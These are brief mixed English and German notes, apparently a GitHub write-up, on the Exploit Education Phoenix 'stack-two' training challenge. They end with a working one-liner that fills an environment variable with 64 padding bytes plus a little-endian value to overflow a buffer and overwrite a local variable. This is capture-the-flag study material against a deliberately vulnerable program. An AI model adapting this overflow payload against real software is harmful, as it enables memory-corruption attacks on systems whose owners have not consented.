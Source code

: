 #Third Phoenix stack overflow challenge
##New feature is to load Environment variables with getenv("ExploitEducation")
(export ExploitEducation='Hello World!')

Ansonsten ziemlich gleich (auch memory layout)
value to set changeme to contains special cars like LF and CR
locals.changeme == 0x0d0a090a
*mind the endianess*

Flag: 
export ExploitEducation=$(python -c 'print("A"*64+"\x0a\x09\x0a\x0d")')

